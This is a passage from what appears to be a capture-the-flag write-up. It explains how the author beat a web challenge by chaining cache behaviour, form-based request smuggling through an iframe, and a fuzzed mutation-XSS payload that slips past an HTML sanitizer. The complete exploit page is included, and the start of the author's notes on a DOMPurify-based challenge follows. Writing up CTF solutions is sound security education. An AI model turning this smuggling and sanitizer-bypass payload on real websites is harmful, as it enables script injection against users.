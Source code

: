 The flow is the following:

- The bot visits the page
- On the page there is an `iframe` pointing to the challenge page with a valid ID used to retrieve the safe content
- On the same page there is also a `form` that will be summited using the `iframe` as target. This will be used in order to create the smuggling.
- The smuggling form will be autosubmitted after 1 second.
- After 1 more second, the iframe is redirected back to the homepage. This will not issue any request since the page is <mark style="background: #FFB86CA6;">cached</mark>
- The page issue the request in order to retrieve the safe content, but it will recieve the unsanitized path containing our malicious HTML tag
- The XSS doesn't pop, since there is the sanitizer :rofl:

Jokes aside, there is the sanitizer to bypass. How i did it? By fuzzing. I've used a bunch of old mXSS payloads and tweaked the attributes in order to make everything works. I've not fully understood why my payload is working, but indeed it works.

Here there's the final payload:

```html
<html>
    <head></head>
    <body>
        <iframe width="1000" height="1000" id="watermelon" name="watermelon" src="http://34.171.202.118/?draft_id=b6921e21-4951-4fc2-a209-789c5d7b509f"></iframe>
        <form target="watermelon" action="http://34.171.202.118/api/drafts?id=b6921e21-4951-4fc2-a209-789c5d7b509f" method="POST" enctype="text/plain">
            <textarea name="http"></textarea>
        </form>
        <script>
            document.forms[0].http.name = `GET /<svg></p><style><g/title="</style><img/i/src/a/onerror=alert(origin)>test</details>"> HTTP/1.1\r\n`.repeat(5)
            setTimeout(()=>{
                document.forms[0].submit();
                setTimeout(()=>{watermelon.location.href="http://34.171.202.118/?draft_id=b6921e21-4951-4fc2-a209-789c5d7b509f"},1000)
            },1000)
        </script>
    </body>
</html>
```

I want to add one more thing. The usage of a `textarea` tag to hold the smuggle payload was something that i've took from another challenge. It's mindblowing to me.

## Charset Shenanigans by kinugawamasato - w/ strellic


Honestly at the beginning i didn't think that i've would be able to solve this challenge. The challenge doesn't have any server side logic. Here is the core of it

```javascript
function render(html) {
      const sanitizedHtml = DOMPurify.sanitize(html, { ALLOWED_ATTR: [], ALLOW_ARIA_ATTR: false, ALLOW_DATA_ATTR: false });
      const blob = new Blob([sanitizedHtml], { "type": "text/html" });
      const blobURL = URL.createObjectURL(blob);
      input.value = sanitizedHtml;
      window.open(blobURL, "iframe");
      createPermalink(sanitizedHtml);
    }
```
